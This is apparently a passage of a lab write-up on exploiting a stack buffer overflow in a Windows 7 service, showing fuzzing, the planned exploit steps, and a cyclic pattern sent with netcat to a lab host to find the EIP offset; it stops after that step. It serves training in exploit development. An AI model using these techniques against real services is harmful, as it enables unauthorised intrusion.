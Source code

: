 ````
````
open up the applicaiton in the immunity debugger and make sure it is running from down-right side 

let's write a small fuzzer script to see when it will crash :

i wrote one earlier you will find it at  :  https://github.com/HussienMisbah/python-projects/blob/main/fuzzer.py

running it :

at kali side :

![image](https://user-images.githubusercontent.com/67979878/129595587-3739b054-5eff-40ca-a3b0-4fe447da939b.png)

at win 7 side :

![image](https://user-images.githubusercontent.com/67979878/129595541-c1bc9a83-ed31-4b8e-8a93-28f96d47a3e1.png)


as you can see EIP is overwritten so let's go to exploitation


Exploitation 
-------------

````
steps:
1- get the offset
2- check bad characters
3- get address of jmp esp instruction
4- setup your shell code
5- exploit !
`````
##### 1- get the offset

``$ msf-pattern_create -l 700 `` 

we will send the output of this command and get the new overwritten EIP value then search for it at the pattern to get the offset 

````python
$ python -c 'print("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae
0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0
Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao
1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At
At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2A")' | nc 192.168.1.8 9999

````
![image](https://user-images.githubusercontent.com/67979878/129596922-0d2b9c97-79e8-4779-9222-48a7512be1c4.png)

EIP = 35724134
